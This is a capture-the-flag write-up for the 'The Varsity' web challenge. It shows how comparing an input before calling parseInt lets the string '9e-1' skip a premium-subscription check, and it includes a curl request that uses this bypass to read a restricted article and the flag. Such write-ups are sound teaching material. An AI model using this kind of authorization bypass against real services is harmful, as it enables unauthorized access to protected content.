 > Come read our newspaper! Be sure to subscribe if you want access to the entire catalogue, including the latest issue.
> 
> Author: SteakEnthusiast
> 
> `uoftctf-the-varsity.chals.io`

We are given a login screen with a username, and the option to also input a voucher code. Once we login with an arbitrary username, we can access a library of 9 articles, however the 9th is restricted to "premium" members. This 9th article contains the flag.

Looking at the provided source code, there looks to be a robust login system in place, however, one function looks strange, the route to access an article:

```
app.post("/article", (req, res) => {
  const token = req.cookies.token;
  if (token) {
    try {
      const decoded = jwt.verify(token, JWT_SECRET);
      let issue = req.body.issue;
      if (req.body.issue < 0) {
        return res.status(400).json({ message: "Invalid issue number" });
      }
      if (decoded.subscription !== "premium" && issue >= 9) {
        return res
          .status(403).json({ message: "Please subscribe to access this issue" })
      }
      issue = parseInt(issue);
      if (Number.isNaN(issue) || issue > articles.length - 1) {
        return res.status(400).json({ message: "Invalid issue number" });
      }
      return res.json(articles[issue]);
    } catch (error) {
      res.clearCookie("token");
      return res.status(403).json({ message: "Not Authenticated" });
    }
  } else {
    return res.status(403).json({ message: "Not Authenticated" });
  }
});
```

The function checks if the `issue` var is greater or equal to 9 before it converts it to an Integer with parseInt. Doing some research reveals this article: https://dev.to/darkmavis1980/you-should-stop-using-parseint-nbf. Specifically, the difference between how Number() and parseInt() handle scientific numbers, where Number('9e-1') would be 0.9, but parseInt('9e-1') would be 9. 

Therefore, if we set `issue` to "9e-1", we should pass the check, and still access the 9th article. 

Using the following command: 

`curl 'https://uoftctf-the-varsity.chals.io/article'   -H 'Connection: keep-alive'   -H 'Content-Type: application/json'   -H 'Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IjEyMzQiLCJzdWJzY3JpcHRpb24iOiJndWVzdCIsImlhdCI6MTcwNTIwMjk5MCwiZXhwIjoxNzA1Mjg5MzkwfQ.PpC0qOTtOwTO_K9H8zyR_MEBD7xPYjFbGB-b-HN7uiI'     --data-raw '{"issue": "9e-1"}'   --compressed`

We get the flag: uoftctf{w31rd_b3h4v10r_0f_parseInt()!}